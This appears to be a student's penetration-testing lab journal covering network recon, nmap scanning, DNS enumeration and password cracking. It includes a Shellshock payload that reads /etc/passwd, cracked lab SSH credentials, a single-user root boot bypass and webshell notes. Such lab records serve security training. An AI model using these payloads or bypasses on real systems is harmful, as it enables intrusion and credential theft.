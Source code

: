 # Journal

## 1/21/2022
#### Passive Recon
- www.boltonvalley.com
- Tools
 - `whois`
 - `nslookup`
 - theHarvester
 - [archive.org](https://archive.org)

## 1/27/2022
- setup crd on kali
- installed wireguard on kali
- `sudo apt install wireguard`
### Modification
- `sudo wg-quick up wg0`
## 1/28/2022
- ephemeral port on src device
### Host Discovery
- ping
```bash
for ip in $(seq 2 50); do ping 10.0.5.$ip -c 1 -t 20| grep "bytes from" | grep -oP "(\d+\.){3}\d+" >> sweep.txt; done
```
- fping
```bash
sudo fping -g 10.0.5.2 10.0.5.50 | grep "alive" | cut -d " " -f 1 >> sweep2.txt
```
- nmap
```bash
sudo nmap -n --open -sn 10.0.5.2-50 | grep report | cut -d " " -f 5 > sweep3.txt
```
- & to not wait for command to complete
#### Reflections
- Had trouble with running bash file - Fixed with
```bash
chmod +x
```
- Really slow until lowered ttl for pings

## 2/3/2022
### nmap
- Needs sudo to check with ICMP to see if host is open
- Checks all ports even if host is down:
```bash
sudo nmap ip -Pn
```
- Target specific ports:
```bash
sudo nmap ip -p ports
```
- Get versions of:
```bash
sudo nmap ip -sV
```
- Checks everything and tracert:
```bash
sudo nmap ip -A
```
### Port Scanning
#### Enable RDP
- Settings > System > Remote Desktop
#### Reflection
- OS and Version detection not always accurate

## 2/4/2022
### PowerShell and DNS
- use single quotes around period to escape it
```bash
Resolve-DnsName -Name $network'.'$i -DnsOnly -Server $server | Select-Object -Property Name,NameHost
```
- for loops with -gt,-lt,-eq
- Pipe to Get-Member to list properties
- Pipe to Select-Object to use those properties
## 2/10/2022
### Bash and DNS
[DNS page](dns-enumeration.md)
### Reflections
- nmap -oG for greppable output
- `
dig axfr @nameserver domain
` for zone transfer
- `
nslookup -vc
` to use TCP instead of UDP
- `
nmap -sS -sU
` to query tcp and udp ports

## 2/11/2022
### Searchsploit
- use with version name and number to get exploits
- use with -m exploit number to download
### Test
- `
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/status,cmd="echo ; echo ; /usr/bin/whoami" 10.0.5.23
`
- `
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.0.5.23/cgi-bin/status
`
#### Reflections
- `
xfce4-panel -r
` to reload top bar
## 2/23/2022
### Cupcake

## 2/24/2022
### Password Guessing
[Password Cracking](password_cracking.md)
#### SSH
- peregrin.took Peregrin123
- frodo.baggins Strider2020
### Single User
- Reboot and press "e" on GNU/Linux
- add `single init=/bin/bash` to end of linux line
- remount drive `mount -rw -o remount /`
- `sync` and `umount /` before rebooting
## 3/3/2022
[Password Cracking](password_cracking.md)
## 3/10/2022
### FTP
- anonymous access with anonymous as username and no password
- get to download file and put to upload file
### MySQL
- can only work as local execution
- `mysql -u user -p`
- `SHOW DATABASES` and `SHOW TABLES`
- `SELECT * FROM TABLE`
### pbkdf2
- use john with format $type$iterations.salt.hash
- ensure if it has 64 to convert to hex first
## 4/1/2022
### 7.1 Webshells
- `php -S 127.0.0.1:8090 -t .` to create server in directory
- replace + with %2B for url encoding and replace > with %3E
### Weevely
[Weevely](weevely.md)
#### Reflection
- Much easier to have direct terminal access as opposed to typing in curl or in browser url bar
- 
